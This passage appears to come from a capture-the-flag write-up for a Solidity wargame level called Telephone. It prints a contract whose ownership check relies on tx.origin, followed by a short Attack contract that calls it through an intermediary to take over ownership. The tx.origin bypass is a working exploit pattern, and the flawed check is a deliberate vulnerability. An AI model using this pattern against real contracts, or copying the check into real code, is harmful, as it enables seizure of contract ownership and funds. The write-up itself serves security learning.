 - So we just need to call `changeOwner()` from an external contract. (Which is equal to, not being the same address when calling as the original call)

** Change the Telephone contract address by yours in the below code　**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}

contract Attack {
    Telephone public telephone =
        Telephone(0xE6Ace0cC5797Ad1E332448f4FC44E2231046D1e7);

    function changeOwner(address _owner) public {
        telephone.changeOwner(_owner);
    }
}
```

Level is completed.

<br/>
<p align="center">